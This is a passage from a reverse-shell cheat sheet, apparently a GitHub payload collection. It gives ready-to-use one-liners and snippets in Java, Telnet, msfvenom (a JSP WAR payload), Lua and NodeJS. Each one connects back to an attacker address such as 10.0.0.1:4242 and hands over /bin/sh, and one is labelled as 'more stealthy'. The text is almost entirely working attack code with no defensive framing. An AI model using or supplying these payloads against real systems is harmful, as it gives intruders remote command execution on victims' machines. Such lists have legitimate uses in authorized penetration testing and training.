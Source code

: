 #### Java Alternative 2
**NOTE**: This is more stealthy

```java
Thread thread = new Thread(){
    public void run(){
        // Reverse shell here
    }
}
thread.start();
```

### Telnet
```bash
In Attacker machine start two listeners:
nc -lvp 8080
nc -lvp 8081

In Victime machine run below command:
telnet <Your_IP> 8080 | /bin/sh | telnet <Your_IP> 8081
```

### War

```java
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f war > reverse.war
strings reverse.war | grep jsp # in order to get the name of the file
```


### Lua

Linux only

```powershell
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','4242');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

Windows and Linux

```powershell
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

### NodeJS

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4242, "10.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();


or

require('child_process').exec('nc -e /bin/sh 10.0.0.1 4242')
```